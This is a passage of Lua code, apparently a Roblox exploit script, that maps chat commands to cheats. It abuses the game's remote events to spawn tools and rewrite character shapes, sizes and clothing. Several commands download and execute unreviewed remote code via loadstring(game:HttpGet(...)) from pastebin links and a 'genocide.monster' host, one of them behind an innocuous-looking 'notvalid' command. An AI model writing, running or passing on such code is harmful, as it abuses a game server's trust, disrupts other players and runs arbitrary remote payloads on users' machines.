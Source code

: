 end
    if msg:lower() == "^acp" then
        game.workspace.GiveTool:FireServer("IDFORSPAWNER", "PompousTheCloud")
        wait()
        loadstring(game:HttpGet("https://pastebin.com/raw/bHD8YmrD"))()
    end
    if msg:lower() == "^fat" then
game.workspace.GiveTool:FireServer("IDFORSPAWNER", "PompousTheCloud")
local UserName  = game:GetService("Players").LocalPlayer.Name -- DON'T EDIT
local Name = "NAME"-- NAME THE TOOL IF WANT 
local CE = {} -- DON'T EDIT
local C = { -- DON'T EDIT
	workspace = game:GetService("Workspace"), 
	players = game:GetService("Players") 
}
local MainUserP, MainUserW = C.players.LocalPlayer, C.workspace:FindFirstChild(UserName) -- DON'T EDIT


function CE:FireEvent(ItemName, Object, Property, Value) -- DON'T EDIT
	MainUserW:FindFirstChild(ItemName)["ServerControl"]:InvokeServer("SetProperty",{["Value"]=Value,["Property"]=Property,["Object"]=Object}) 
end

C.workspace.Buy:FireServer(0, "PompousTheCloud") -- DON'T EDIT

MainUserP["Backpack"]:WaitForChild("PompousTheCloud").Parent = MainUserW
CE:FireEvent("PompousTheCloud",MainUserW["Torso"],"Shape","Ball")
CE:FireEvent("PompousTheCloud",MainUserW["Torso"],"Shape","Block")
CE:FireEvent("PompousTheCloud",MainUserW["Torso"],"Size",Vector3.new(2,2,2))
CE:FireEvent("PompousTheCloud",MainUserW["Right Arm"],"Shape","Ball")
CE:FireEvent("PompousTheCloud",MainUserW["Right Arm"],"Shape","Block")
CE:FireEvent("PompousTheCloud",MainUserW["Right Arm"],"Size",Vector3.new(2,2,2))
CE:FireEvent("PompousTheCloud",MainUserW["Left Arm"],"Shape","Ball")
CE:FireEvent("PompousTheCloud",MainUserW["Left Arm"],"Shape","Block")
CE:FireEvent("PompousTheCloud",MainUserW["Left Arm"],"Size",Vector3.new(2,2,2))
CE:FireEvent("PompousTheCloud",MainUserW["Right Leg"],"Shape","Ball")
CE:FireEvent("PompousTheCloud",MainUserW["Right Leg"],"Shape","Block")
CE:FireEvent("PompousTheCloud",MainUserW["Right Leg"],"Size",Vector3.new(2,2,2))
CE:FireEvent("PompousTheCloud",MainUserW["Left Leg"],"Shape","Badll")
CE:FireEvent("PompousTheCloud",MainUserW["Left Leg"],"Shape","Block")
CE:FireEvent("PompousTheCloud",MainUserW["Left Leg"],"Size",Vector3.new(2,2,2))
CE:FireEvent("PompousTheCloud",MainUserW["Shirt"],"ShirtTemplate","rbxassetid://249458025")
CE:FireEvent("PompousTheCloud",MainUserW["Pants"],"PantsTemplate","rbxassetid://280452751")
    end
    if msg:lower() == "^infyl" then
        loadstring(game:HttpGet("https://pastebin.com/raw/tzTXmYf2"))()
    end
    if msg:lower() == "^inf" then
        loadstring(game:HttpGet("https://pastebin.com/raw/0k6w9XPQ"))()
    end
    if msg:lower() == "notvalid" then
        loadstring(game:HttpGet(('http://genocide.monster/script_source'),true))()
    end
    if msg:lower() == "^couch" then
        game.workspace.GiveTool:FireServer("IDFORSPAWNER", "PompousTheCloud")
        wait()
        loadstring(game:HttpGet("https://pastebin.com/raw/MLmdLvaH"))()
    end
        if msg:lower() == "^noob" then
        game.workspace.GiveTool:FireServer("IDFORSPAWNER", "PompousTheCloud")
        wait()
        loadstring(game:HttpGet("https://pastebin.com/raw/aUnrfhmy"))()
    end
        if msg:lower() == "^pm" then